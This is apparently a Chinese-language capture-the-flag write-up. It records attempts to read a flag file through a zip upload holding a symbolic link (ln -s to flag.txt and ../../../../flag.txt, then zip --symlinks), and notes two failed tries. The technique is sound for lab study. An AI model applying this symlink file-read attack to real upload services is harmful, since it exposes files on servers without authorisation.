 ```Command=
  -d, -F, --directory         allow the superuser to attempt to hard link
                                directories (note: will probably fail due to
                                system restrictions, even for the superuser)
  -f, --force                 remove existing destination files
  -i, --interactive           prompt whether to remove destinations
  -L, --logical               dereference TARGETs that are symbolic links
  -n, --no-dereference        treat LINK_NAME as a normal file if
                                it is a symbolic link to a directory
  -P, --physical              make hard links directly to symbolic links
  -r, --relative              with -s, create links relative to link location
  -s, --symbolic              make symbolic links instead of hard links
  -S, --suffix=SUFFIX         override the usual backup suffix
  -t, --target-directory=DIRECTORY  specify the DIRECTORY in which to create
                                the links
  -T, --no-target-directory   treat LINK_NAME as a normal file always
  -v, --verbose               print name of each linked file
      --help        display this help and exit
      --version     output version information and exit

The backup suffix is '~', unless set with --suffix or SIMPLE_BACKUP_SUFFIX.
The version control method may be selected via the --backup option or through
the VERSION_CONTROL environment variable.  Here are the values:

  none, off       never make backups (even if --backup is given)
  numbered, t     make numbered backups
  existing, nil   numbered if numbered backups exist, simple otherwise
  simple, never   always make simple backups
```
> ln -s flag.txt index.html

(index.html: 建立flag.txt的Symbolic link)
產出後的HTML 是一個symbolic link(不是 file)，無法壓縮zip
> zip upload.zip index.html image.jfif

![image](https://hackmd.io/_uploads/B1KsGprHT.png)

( Upload upload.zip )
![image](https://hackmd.io/_uploads/HyMBA64Sa.png)

**----- 失敗 -----** (更改flag.txt路徑)
> ln -s ../../../../flag.txt index.html
> zip upload.zip index.html image.jfif

![image](https://hackmd.io/_uploads/SkaorpBS6.png)
> **zip warning: name not matched: index.html**
  adding: image.jfif (deflated 2%)
  
**----- 失敗 -----**

● [zip symbolic link](https://serverfault.com/questions/265675/how-can-i-zip-compress-a-symlink): The ZIP format supports storing the symbolic link. To store symbolic links as such, you can use the **--symlinks** option
> zip --symlink index.zip index.html image.jfif
